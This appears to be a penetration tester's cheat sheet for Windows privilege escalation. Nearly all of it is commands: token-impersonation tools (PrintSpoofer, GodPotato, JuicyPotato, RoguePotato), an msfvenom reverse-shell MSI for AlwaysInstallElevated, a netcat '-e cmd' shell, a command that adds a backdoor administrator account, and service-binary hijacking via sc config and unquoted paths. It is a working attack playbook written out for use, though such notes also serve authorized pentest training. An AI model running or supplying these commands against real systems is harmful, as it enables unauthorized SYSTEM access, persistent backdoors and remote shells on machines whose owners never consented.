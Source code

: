 ```
# SeImpersonate Privileges

## Prinf Spoofer
impacket-rpcdump -port 135 <target-ip> | grep -E 'MS-RPRN|MS-PAR' OR
get-childitem \\.\pipe\ OR
(get-childitem \\.\pipe\).FullName OR
[System.IO.Directory]::GetFiles("\\.\\pipe\\")
.\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i

## God Potato
.\GodPotato.exe -cmd "path to rev shell exe"
.\GodPotato.exe -cmd "net user admin admin /add & net localgroup administrators admin /add"


# Privileges
whoami /all
.\JuicyPotato.exe -t t -p <path to exploit binary> -l 5837
.\JuicyPotato.exe -e EfsRpc -p <path to nc.exe> -a "LHOST LPORT -e cmd"
.\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
.\Incognito.exe list_tokens -u
.\koh.exe 


# Autorun
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
accesschk.exe /accepteula -wvu <binary location>
copy C:\PrivEsc\reverse.exe <binary location> /Y
Login again


# AutoLogon
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon" 
reg query "HKCU\Software\Microsoft\Windows NT\CurrentVersion\winlogon" 


# Always Install Evelvated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated AND
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi


# Local Services
netstat -ano


# Insecure Service Permissions
wmic service get name,pathname,displayname,startmode (Powershell) OR 
sc query state= all (CMD)
accesschk.exe /accepteula -uwcqv <username> <service name>
sc qc <service name>
sc config <service name> binpath= "\"C:\PrivEsc\reverse.exe\""
net stop <service name>
net start <service name>


# Unquoted Service Path
wmic service get name,pathname,displayname,startmode (Powershell) OR 
sc query state= all (CMD)
sc qc <service name>
accesschk.exe /accepteula -uwdq <service path>
copy C:\PrivEsc\reverse.exe <location to put binary>
net stop <service name>
```